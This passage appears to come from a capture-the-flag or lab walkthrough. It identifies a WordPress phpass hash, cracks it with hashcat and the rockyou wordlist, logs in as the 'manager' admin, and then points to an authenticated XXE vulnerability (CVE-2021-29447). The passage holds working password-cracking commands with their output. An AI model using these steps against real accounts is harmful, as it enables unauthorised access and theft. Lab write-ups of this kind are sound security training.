 <br><br>

## Password Cracking 1

- `hashid '$P$BGrGrgf2wToBS79i07Rk9sN4Fzk.TV.'`
    ```
    [+] Wordpress ≥ v2.6.2 
    [+] Joomla ≥ v2.5.18 
    [+] PHPass' Portable Hash
    ```

- Now I check which **Hash-Mode** it matches: `hashcat --example-hashes`
    ```
    400 phpass, WordPress (MD5), Joomla (MD5)
    Example: $P$984478476IagS59wHZvyQMArzfx58u.
    ```

- I crack it then: `hashcat -m 400 hashes.txt /usr/share/wordlists/rockyou.txt`
    ```
    $P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70:partylikearockstar     
                                                            
    Session..........: hashcat
    Status...........: Cracked
    Hash.Mode........: 400 (phpass)
    Hash.Target......: $P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70
    Time.Started.....: Thu Dec  1 10:26:38 2022 (1 min, 20 secs)
    Time.Estimated...: Thu Dec  1 10:27:58 2022 (0 secs)
    Kernel.Feature...: Pure Kernel
    Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
    Guess.Queue......: 1/1 (100.00%)
    Speed.#1.........:     1389 H/s (11.44ms) @ Accel:256 Loops:128 Thr:1 Vec:8
    Recovered........: 1/1 (100.00%) Digests
    Progress.........: 110592/14344385 (0.77%)
    Rejected.........: 0/110592 (0.00%)
    Restore.Point....: 109568/14344385 (0.76%)
    Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:8064-8192
    Candidate.Engine.: Device Generator
    Candidates.#1....: taena -> music69
    Hardware.Mon.#1..: Util: 90%

    Started: Thu Dec  1 10:26:35 2022
    Stopped: Thu Dec  1 10:28:00 2022
    ```

    Now I can use this password to log-in in the WordPress admin panel as `manager` user

<br><br>

## XXE

- After logged in the pannel I start to search if there is any note vulnerability as authenticated user for `WordPress 5.6.2`

    I found this [https://blog.wpsec.com/wordpress-xxe-in-media-library-cve-2021-29447/](https://blog.wpsec.com/wordpress-xxe-in-media-library-cve-2021-29447/)
